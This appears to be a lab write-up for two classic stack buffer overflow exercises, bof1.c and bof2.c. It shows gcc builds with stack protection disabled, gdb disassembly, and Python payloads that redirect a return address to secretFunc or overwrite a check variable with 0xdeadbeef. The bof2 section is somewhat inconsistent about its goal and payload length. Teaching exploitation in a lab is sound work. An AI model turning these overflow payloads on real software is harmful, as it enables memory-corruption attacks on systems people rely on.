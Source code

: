## bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!  


# Stackframe


# Vulnerability  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes  


# Attack  
Compile file without stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/303e297a-27f9-4b2e-8cb6-32dbc0df52a6)


Run gdb  
`gdb bof1.out`
![image](https://github.com/user-attachments/assets/98f15c46-056c-4148-ad6c-85b96eefae6c)


Disassemble the vuln function  
`disas vuln`  
![image](https://github.com/user-attachments/assets/46f661a8-3fca-4ea3-b963-3af801d59cd6)


Disassemble secretFunc  
`disas secretFunc`  
![image](https://github.com/user-attachments/assets/12485e26-6f6b-4cbd-bd57-d074811f5878)

The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To create 204 bytes by generate 204 characters 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
![image](https://github.com/user-attachments/assets/9bce4ca9-6a20-4c71-8a37-569512138885)


## bof2.c
To exploit `bof2.c`, we aim to overwrite the return address `vuln()` function and redirect the flow of execution to the `secretFunc()`  


# Stackframe


# Vulnerability
To overwrite the `check` variable, the attacker need to provide input that fills the 40-byte buffer and writes additional bytes to overwrite `check`  

# Attack
Compile the program without stack protection  
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/e5982a17-89cd-48aa-8cd0-c958af4d9dc4)



Run gdb  
`gdb bof2.out`  
![image](https://github.com/user-attachments/assets/69fd4a19-e3db-4ecf-9507-bb940ed0280a)


Set a breakpoint at the `fgets` function  
`break fgets`  
![image](https://github.com/user-attachments/assets/a7c423ce-e804-49e9-b50b-2e9767f2ac51)


Run the program
`run`  
![image](https://github.com/user-attachments/assets/aafeed61-f26c-424c-a7ee-abf5e3916036)


To attack, based on the stackframe we need 44 bytes  
Quit `q`  
To create 44 bytes by generate 40 characters 'a' and 4 characters 'b'  `echo $(python -c "print('a' * 40 + 'b' * 4 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/b831c2aa-51d9-4ce1-ab5c-669d6e5961ce)


Manipulate the program's memory by overflowing a fixed-length buffer by generate 40 bytes `echo $(python -c "print('a' * 40 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/a895e807-c274-45ca-bc72-ffdda1f614ed)
